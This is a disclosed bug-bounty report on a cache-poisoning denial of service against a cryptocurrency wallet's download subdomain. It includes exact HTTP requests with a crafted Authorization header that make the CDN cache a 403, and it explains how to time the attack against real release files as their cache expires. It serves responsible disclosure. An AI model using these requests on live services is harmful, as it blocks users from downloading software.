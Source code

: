 # Cache Poisoning DoS on downloads.exodus.com

## Report Details
- **Report ID**: 1173153
- **URL**: https://hackerone.com/reports/1173153
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-04-23T11:38:15.900Z
- **Disclosed**: 2021-12-22T23:36:50.416Z

## Reporter
- **Username**: youstin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exodus

## Vulnerability Information
## Summary:
Hello,

The subdomain downloads.exodus.com hosts all files meant to be downloaded by exodus users. A few of the file I found are:

```
https://downloads.exodus.com/releases/exodus-linux-x64-21.4.9.zip
https://downloads.exodus.com/releases/hashes-exodus-21.2.12.txt
https://downloads.exodus.com/releases/exodus-macos-21.3.29.dmg
```

The files are hosted on a azure storage host and are cached by Cloudflare.
A crafted Authorization header causes a 403 on the azure storage host, which is cached by cloudflare and passed to all other users accessing the source. 

### Disclaimer:
No actual denial of service attack was caused troughout my testing. All the testing used cache-busters, meaning it did not affect the live website in any way.

## Steps To Reproduce:

1. Send the following request to poison the cache:
```http
GET /releases/hashes-exodus-21.2.12.txt?cachebuster=hackerone HTTP/1.1
Host: downloads.exodus.com
Authorization: SharedKeyLite myaccount:ctzMq410TV3wS7upTBcunJTDLEJwMAZuFPfr0mrrA08=  

```
Notice you will get a 403. 

2. The cache is now poisoned so sending a request without the header or visiting the poisoned url in a browser will show you the cached 403. 
```
```http
GET /releases/hashes-exodus-21.2.12.txt?cachebuster=hackerone HTTP/1.1
Host: downloads.exodus.com

```
Will show the same 403 response. 

## Supporting Material/References:

Video PoC:

████████

## Impact

The steps that were used to take down a reosurce including a random parameter as a cache-buster can also be reproduced on the actual files when their cache is about to expire.  This will cause a DoS, restricting users from downloading or accessing the files hosted on downloads.exodus.com.

## Attachments
No attachments

